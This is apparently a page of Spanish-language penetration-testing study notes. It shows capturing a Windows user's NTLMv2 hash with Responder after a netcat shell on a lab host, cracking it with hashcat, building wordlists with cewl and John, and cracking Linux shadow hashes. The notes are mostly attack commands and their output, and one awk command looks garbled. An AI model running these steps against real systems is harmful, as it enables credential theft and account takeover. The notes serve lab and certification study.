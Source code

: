 ## NTLMv2
```cmd
nc 192.168.50.211 4444
C:\Windows\system32> whoami
whoami
files01\paul

net user paul
```
Revisar si está en el grupo de RDP
```cmd
Local Group Memberships *Remote Desktop Users *Users
```
Desde nuestra máquina lanzamos el responder con la interfaz de SMB habilitado
```sh
ip a
sudo responder -I tap0
```
Desde la máquina victima intentar acceder a un share
```cmd
dir \\192.168.119.2\test
```
Y desde el responder deberíamos de encontrar el hash
```cmd
[+] Listening for events... 
[SMB] NTLMv2-SSP Client : ::ffff:192.168.50.211
[SMB] NTLMv2-SSP Username : FILES01\paul
[SMB] NTLMv2-SSP Hash : 
paul::FILES01:1f9d4c51f6e74653:795F138EC69C274D0FD53BB32908A72B:010100000000000000B050
CD1777D801B7585DF5719ACFBA0000000....00
```
```sh
hashcat --help | grep -i "ntlm"
hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force
```


## Password Generation with cewl and John 

```sh
cewl http://1.1.1.1/index.html >> words.txt

john --wordlist=words.txt --rules --stdout >> wordlist.txt
```

## Cracking Hashes - Linux 

```sh
cat shadow.txt | awk -F':' '{print }' > hashes.txt

hashcat -m 500 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

hashcat -m 1800 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
